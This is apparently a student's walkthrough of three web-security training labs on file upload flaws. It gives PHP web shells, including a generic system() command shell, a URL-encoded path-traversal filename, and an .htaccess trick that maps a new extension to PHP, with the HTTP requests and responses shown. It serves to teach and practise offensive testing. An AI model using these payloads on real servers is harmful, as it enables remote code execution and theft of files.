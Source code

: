 # Lab: Remote code execution via web shell upload

Changed the file uploaded to .php extension with Content-Type and the shell that will echo the content of the secret:
```http
------WebKitFormBoundaryzoIAY8Fkq5CCKRxU
Content-Disposition: form-data; name="avatar"; filename="burp-suite-icon.php"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

After the change when we go back to my-account page there is an http request for the file, which then gets ran in the server and we get the response:
```
HTTP/1.1 200 OK
...
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 32

FDgHaQRlAm6WYGUmYPmR1DzA53JOENZo -> secret
```

A more versatile web shell may look something like this:
```php
<?php echo system($_GET['command']); ?>
```
This script enables you to pass an arbitrary system command via a query parameter as follows:
```http
GET /example/exploit.php?command=id HTTP/1.1
```

# Lab: Web shell upload via path traversal

When uploading the php web shell we see that when we request the file later we get the text inside and the script does not ran.
```http
------WebKitFormBoundaryzoIAY8Fkq5CCKRxU
Content-Disposition: form-data; name="avatar"; filename="burp-suite-icon.php"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```
in order to use the path traversal we will send:
```http
------WebKitFormBoundaryzoIAY8Fkq5CCKRxU
Content-Disposition: form-data; name="avatar"; filename="../burp-suite-icon.php"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

This did not work as the output is still "uploaded to avatars/burp-suite-icon.php". This suggests that there is a strip of our filename, now lets use encode url of this filename:
```http
------WebKitFormBoundaryzoIAY8Fkq5CCKRxU
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2f%62%75%72%70%2d%73%75%69%74%65%2d%69%63%6f%6e%2e%70%68%70"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```
And then we see that when we try to access my-account we get a request for "/files/avatars/..%2fburp-suite-icon.php"
which results in:
```http
HTTP/1.1 200 OK
...
Connection: close
Content-Length: 32

gkhUTC63b0CGmmoJodvFiyygH80J3QDa -> secret
```

# Lab: Web shell upload via extension blacklist bypass

We see we cannot upload .php files and so we add .htaccess to map another type of extensions to run.
First we upload:

```http
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain


AddType application/x-httpd-php .l33t
```

After that I upload the newly php mapped file:
```
Content-Disposition: form-data; name="avatar"; filename="burp-suite-icon.l33t"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
```